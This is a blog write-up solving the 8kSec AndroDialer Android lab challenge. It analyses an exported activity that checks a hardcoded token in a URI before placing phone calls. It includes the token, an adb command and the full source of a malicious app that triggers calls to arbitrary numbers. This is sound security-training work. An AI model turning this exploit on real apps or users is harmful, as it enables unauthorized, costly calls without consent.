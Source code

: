 ```yaml
---
title:  "8kSec AndroDialer Writeup"
date:   2025-09-12T16:34:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for AndroDialer challenge from 8kSec Android Labs. 

```
Goal:
Create a malicious application that exploits the AndroDialer application to initiate unauthorized phone calls to arbitrary numbers without the victim's knowledge or consent.
```

## Static Analysis

![](screen1.png)

Main function of our application is calling numbers :) Lets start our analysis with jadx.

### Code Analysis

Manifest file have lots of activities but one of them is important for us.

```xml
...
...
...
        <activity android:theme="@android:style/Theme.NoDisplay" android:name="com.eightksec.androdialer.CallHandlerServiceActivity" android:exported="true" android:taskAffinity="" android:excludeFromRecents="true">
            <intent-filter>
                <action android:name="com.eightksec.androdialer.action.PERFORM_CALL"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="tel"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="dialersec" android:host="call"/>
            </intent-filter>
        </activity>
...
...
...

```
Other activities are not exported(except main activity) but this one is exported and as the name suggest(`CallHandlerServiceActivity`),it can be a useful attack surface for our attack. 

This activity gets URI from the caller intent and checks some part from it.

````java
Uri data = getIntent().getData();
.
.
.
//path segment
pathSegments = data.getPathSegments()
indexOf = pathSegments.indexOf("token")

//query parameters
data.getQueryParameter("enterprise_auth_token")

//regex
data.getQuery();
Pattern.compile("enterprise_auth_token=([^&]+)");

//uri fragment
str = data.getFragment();
 if (b.o0(str, "token=", false)) {
    arrayList.add(b.z0(b.x0(str, "token="), "&"));
}
if (j.n0(str10, "enterprise_auth_token=")) {
    arrayList.add(b.x0(str10, "enterprise_auth_token="));}

//create arraylist of token values obtained from uri parts and check the token:

Object obj = arrayList.get(i);
    i++;
    String str13 = (String) obj;
    if (str13 != null)
        try {
            str3 = Uri.decode(str13);
        } catch (Exception e9) {
            Log.e("CallHandlerService", "Error decoding token", e9);
            str3 = str13;
        }
        if (str13.equals("8kd1aL3R_s3Cur3_k3Y_2023") || str13.equals("8kd1aL3R-s3Cur3-k3Y-2023") || h.a(str3, "8kd1aL3R_s3Cur3_k3Y_2023") || h.a(str3, "8kd1aL3R-s3Cur3-k3Y-2023"))

````
As seen in code, this activity try to find a token value from uri parts like:
```
?enterprise_auth_token=AAA
/token/AAA
#token=AAA
#S.enterprise_auth_token=AAA
```
and if the token is `"8kd1aL3R_s3Cur3_k3Y_2023"` or `"8kd1aL3R-s3Cur3-k3Y-2023"`, it will get phone number from URI and send an intent to Android call service to make a new call.

```java
Intent intent = new Intent("android.intent.action.CALL");
    intent.setData(Uri.parse("tel:" + str9));
    intent.addFlags(268435456);
    startActivity(intent);
```
For exploiting this problem, we can create a intent with proper host, scheme and query parameters and make a arbitrary call to any number without any permission. According to the intent filter that defined on AndroidManifest.xml file, our uri starts with `dialersec://call` and with the token and number parameters, final URI can be:

```
dialersec://call?enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023\&number=13371337
```
We can send the intent with adb:
```
adb shell am start -a android.intent.action.VIEW -d "dialersec://call?enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023\&number=13371337"
``` 
Note: Dont forget to escape `&` character, otherwise shell will truncate the command from that special character.

![](screen2.png)

Also we can do it with an malicious app. Here is code for it:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.pwnandrodialer">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.PwnAndroDialer">
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```
```java
package com.example.pwnandrodialer;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Button button1 = (Button) findViewById(R.id.button);
        button1.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                Uri uri = Uri.parse("dialersec://call?number=14531453&enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023");
                Intent intent = new Intent(Intent.ACTION_VIEW, uri);
                startActivity(intent);
            }
        });
    }
}
```

Thats all, see you!

PoC Video: [Youtube](https://youtu.be/Zh3FRD9l_F0)